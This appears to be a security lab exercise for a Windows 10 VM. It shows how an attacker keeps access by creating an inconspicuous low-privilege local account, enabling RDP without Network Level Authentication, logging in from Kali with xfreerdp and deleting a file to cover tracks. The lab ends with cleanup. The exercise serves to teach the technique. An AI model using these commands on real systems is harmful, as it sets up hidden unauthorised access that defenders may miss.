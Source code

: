# Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   ```
4. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
   ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
5. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
6. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ```
7. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
   ```
   sudo ufw status
   sudo ufw allow 3389/tcp
   sudo ufw reload
   sudo ufw status
   ```
8. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
9. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
   ```
   echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
   ```
10. To cover up the tracks, delete the dummy file
   ```
   del C:\Windows\Temp\dummymaliciousfile.txt
   ```
11. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
12. To remove the created account in Windows 10 VM, run the command in PowerShell opened with administrator privileges
    ```
    Remove-LocalUser -Name "username"
    ```

